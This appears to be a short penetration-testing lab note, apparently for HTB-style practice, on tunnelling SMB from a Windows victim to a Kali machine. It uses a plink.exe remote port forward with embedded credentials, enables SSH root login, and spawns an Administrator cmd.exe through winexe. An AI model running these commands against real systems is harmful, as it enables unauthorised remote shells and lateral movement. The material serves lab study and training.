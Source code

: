 https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html

Transfer to vic:

![[Python#Server]]

![[4._File Transfers#Certutil]]

on Kali:
```bash - kali
apt install ssh
```

```bash - kali
mousepad /etc/ssh/sshd_config
```

Change line 33 to:

PermitRootLogin yes

> ALSO, if using HTB, or is not working, try changing port to something other than 22 on line 14, then restarting ssh service.

```bash - kali
service ssh restart
```

```batch - windows
plink.exe -l kali -pw kali -R 445:127.0.0.1:445 $KALI -P 22
```

Now you'll see you're back in your Kali box!


Use winexe to login through local port and spawn cmd:
```bash - kali
winexe -U Administrator%Welcome1! //127.0.0.1 "cmd.exe"
```

Hit enter a few times:



